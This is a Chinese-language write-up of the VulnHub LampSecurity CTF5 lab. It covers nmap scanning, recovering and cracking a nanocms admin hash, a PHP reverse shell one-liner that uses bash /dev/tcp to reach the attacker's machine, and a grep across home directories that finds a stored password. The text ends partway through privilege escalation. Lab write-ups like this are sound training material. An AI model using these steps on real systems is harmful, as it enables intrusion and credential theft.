

> 文档地址：https://www.vulnhub.com/entry/lampsecurity-ctf5,84/
>
> 下载地址：https://download.vulnhub.com/lampsecurity/ctf5.zip

### nmap信息扫描

端口扫描

```bash
# nmap --min-rate 10000 10.9.75.15
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-28 10:24 中国标准时间
Nmap scan report for localhost (10.9.75.15)
Host is up (0.0020s latency).
Not shown: 990 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
25/tcp   open  smtp
80/tcp   open  http
110/tcp  open  pop3
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
143/tcp  open  imap
445/tcp  open  microsoft-ds
901/tcp  open  samba-swat
3306/tcp open  mysql
MAC Address: 00:0C:29:71:71:D3 (VMware)
```

详细扫描

```bash
# nmap -sT -sV -O -p 22,25,80,110,111,139,143,445,901,3306 10.9.75.15
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-28 10:25 中国标准时间
Nmap scan report for localhost (10.9.75.15)
Host is up (0.00059s latency).

PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 4.7 (protocol 2.0)
25/tcp   open  smtp        Sendmail 8.14.1/8.14.1
80/tcp   open  http        Apache httpd 2.2.6 ((Fedora))
110/tcp  open  pop3        UW Imap pop3d 2006k.101
111/tcp  open  rpcbind     2-4 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: MYGROUP)
143/tcp  open  imap        UW imapd 2006k.396
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: MYGROUP)
901/tcp  open  http        Samba SWAT administration server
3306/tcp open  mysql       MySQL 5.0.45
MAC Address: 00:0C:29:71:71:D3 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Network Distance: 1 hop
Service Info: Host: bogon; OS: Unix

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.14 seconds
```

### Web渗透

发现开放了很多端口，先看一下`80`端口


在点击`Blog`的时候，发现了网站的CMS：`nanocms`


```bash
searchsploit nanocms 
```


有RCE利用，但是需要认证

浏览器搜索相关利用信息


发现密码hash泄露，位置在`/data/pagesdata.txt`

`https://www.securityspace.com/smysecure/catid.html?id=1.3.6.1.4.1.25623.1.0.100141`


`http://10.9.75.15/~andy/data/pagesdata.txt`


`admin:9d2f75377ac0ab991d40c91fd27e52fd`

判断该hash值是哪种类型加密

```bash
hash-identifier
```


进行解密


`shannon`

尝试登录




成功登录后台


修改代码，反弹shell


```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.9.75.6/1234 0>&1'")?>
```


kali开启监听

点击`Contact`触发反弹 shell


#### 提权

既然拿到了权限，先`sudo -l`，发现需要密码


`cat /etc/passwd`

发现除了`root`外，还有这么多用户有`bash`环境


在本机上搜索密码相关的文件

由于权限不高，在搜索的时候把错误的信息扔掉

```bash
grep -R -i pass /home/* 2>/dev/null
```


`/home/patrick/.tomboy/481bca0d-7206-45dd-a459-a72ea1131329.note`


`50$cent`


